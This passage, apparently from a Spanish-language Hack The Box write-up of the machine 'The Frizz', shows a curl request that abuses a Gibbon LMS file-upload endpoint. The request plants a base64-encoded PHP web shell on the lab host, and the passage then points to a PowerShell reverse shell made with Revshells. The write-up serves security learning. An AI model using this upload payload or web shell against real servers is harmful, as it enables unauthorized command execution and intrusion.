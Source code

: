 ## Subiendo una shell en php

Ahora que tenemos claro que es posible una subida de archivos solo nos queda subir una shell simple en php.

El payload en cuestión es el siguiente:

```bash
❯ curl -X POST "http://frizzdc.frizz.htb/Gibbon-LMS/modules/Rubrics/rubrics_visualise_saveAjax.php" \
-H "Host: frizzdc.frizz.htb" \
--data-urlencode "img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4K" \
--data-urlencode "path=shell.php" \
--data-urlencode "gibbonPersonID=0000000001"
```

Una vez ejecutado podemos hacer una petición en `http://frizzdc.frizz.htb/Gibbon-LMS/shell.php?cmd=<poweshell base64 reverse shell>`

Esta shell podemos crearla en [Revshells](https://www.revshells.com/)

![alt text](/assets/img/writeups/hackthebox/theFrizz-htb-s7/image-3.png)
